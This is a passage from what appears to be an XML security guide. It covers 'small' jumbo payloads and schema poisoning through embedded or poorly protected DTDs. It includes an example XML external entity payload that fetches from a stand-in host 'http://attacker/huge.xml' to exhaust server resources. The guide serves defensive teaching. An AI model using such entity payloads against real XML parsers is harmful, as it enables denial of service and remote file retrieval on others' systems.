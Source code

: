 ##### "Small" Jumbo Payloads¶
The following example is a very small document, but the results of processing this could be similar to those of processing traditional jumbo payloads. The purpose of such a small payload is that it allows an attacker to send many documents fast enough to make the application consume most or all of the available resources:
<?xml version="1.0"?>
<!DOCTYPE root [
 <!ENTITY file SYSTEM "http://attacker/huge.xml" >
]>
<root>&file;</root>

#### Schema Poisoning¶
When an attacker is capable of introducing modifications to a schema, there could be multiple high-risk consequences. In particular, the effect of these consequences will be more dangerous if the schemas are using DTD (e.g., file retrieval, denial of service). An attacker could exploit this type of vulnerability in numerous scenarios, always depending on the location of the schema.
##### Local Schema Poisoning¶
Local schema poisoning happens when schemas are available in the same host, whether or not the schemas are embedded in the same XML document.
###### Embedded Schema¶
The most trivial type of schema poisoning takes place when the schema is defined within the same XML document. Consider the following, unknowingly vulnerable example provided by the W3C :
<?xml version="1.0"?>
<!DOCTYPE note [
 <!ELEMENT note (to,from,heading,body)>
 <!ELEMENT to (#PCDATA)>
 <!ELEMENT from (#PCDATA)>
 <!ELEMENT heading (#PCDATA)>
 <!ELEMENT body (#PCDATA)>
]>
<note>
 <to>Tove</to>
 <from>Jani</from>
 <heading>Reminder</heading>
 <body>Don't forget me this weekend</body>
</note>

All restrictions on the note element could be removed or altered, allowing the sending of any type of data to the server. Furthermore, if the server is processing external entities, the attacker could use the schema, for example, to read remote files from the server. This type of schema only serves as a suggestion for sending a document, but it must contain a way to check the embedded schema integrity to be used safely. Attacks through embedded schemas are commonly used to exploit external entity expansions. Embedded XML schemas can also assist in port scans of internal hosts or brute force attacks.
###### Incorrect Permissions¶
You can often circumvent the risk of using remotely tampered versions by processing a local schema.
<!DOCTYPE note SYSTEM "note.dtd">
<note>
 <to>Tove</to>
 <from>Jani</from>
 <heading>Reminder</heading>
 <body>Don't forget me this weekend</body>
</note>
